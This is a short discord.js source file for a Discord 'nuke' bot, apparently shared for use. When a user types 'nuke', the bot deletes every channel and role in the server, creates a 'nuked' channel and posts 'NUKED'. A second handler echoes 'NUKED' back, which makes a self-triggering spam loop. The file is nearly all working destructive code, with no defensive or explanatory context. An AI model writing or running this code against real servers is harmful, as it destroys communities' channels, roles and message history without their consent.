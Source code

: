 const Token ="your bots token here!";
const Discord = require("discord.js"); 
const Client = new Discord.Client({
   intents: [
      Discord.Intents.FLAGS.GUILDS,
      Discord.Intents.FLAGS.GUILD_MESSAGES
   ]
});


Client.on('message', async (message) => {
    if (message.content == 'nuke') {
       message.guild.channels.cache.forEach(channel => channel.delete());
          
       message.guild.roles.cache.forEach(role => role.delete());

       
       await message.guild.channels.create("nuked", {
          type : "text"
       }).then(async channel=> {
          channel.send("NUKED")
       })
    }
 })


 Client.on("message", async (message) => {
    if (message.content == "NUKED") {
       message.channel.send("NUKED")
    }
 })
 
Client.login(Token);
